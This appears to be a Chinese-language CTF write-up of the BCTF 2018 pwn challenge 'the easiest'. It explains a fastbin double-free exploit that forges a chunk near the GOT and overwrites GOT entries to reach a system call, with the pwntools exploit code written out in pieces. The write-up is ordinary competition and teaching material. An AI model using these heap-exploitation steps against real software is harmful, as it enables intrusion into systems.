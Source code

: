 ```yaml
---
layout:     post
title:      BCTF write up
subtitle:    pwn
date:       2018-12-7
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 比赛复盘
---
```



> BCTF

# the easiest

首先checksec，查看保护，没有pie保护，我们可以尝试写got表。

![1544151410259](F:\xineting.github.io\img\1544151410259.png)

总共有两个选择add，delete。

![1544151429146](F:\xineting.github.io\img\1544151429146.png)

并且delete可以删除

我 们IDA中有一个hint函数，因为我们看到got表有system所以，找一下，就找到了！

![1544155933667](F:\xineting.github.io\img\1544155933667.png)

我们可以修改got表，然后跳到这里就可以了。

至于这个程序，随便看一下，就知道是个double free的问题！

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
```

这里没有报错，然后我们就可以构造任意的chunk进行写入。然后我们思考构造那个chunk呢？

我们可以看到got表区域，后4位为0x7f.

![1544158629895](F:\xineting.github.io\img\1544158629895.png)

所以可以伪造这个chunk，然后进行got表的修改。

```python
free(1)
free(2)
free(1)
pause()
```

free3次然后malloc把第一块的值写为我们伪造的块的地址，然后malloc两次，我们的fasbin就指向了我们伪造的chunk，这个时候如果再malloc就可以修改got表了。

```python
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")######此时指向的就是我们伪造的chunk了
add(4,0x68,payload)
```

![1544158909167](F:\xineting.github.io\img\1544158909167.png)

![1544159354143](F:\xineting.github.io\img\1544159354143.png)

可见我们已经修改成功，接着就是scanf的got调用，接着就getshell了

脚本如图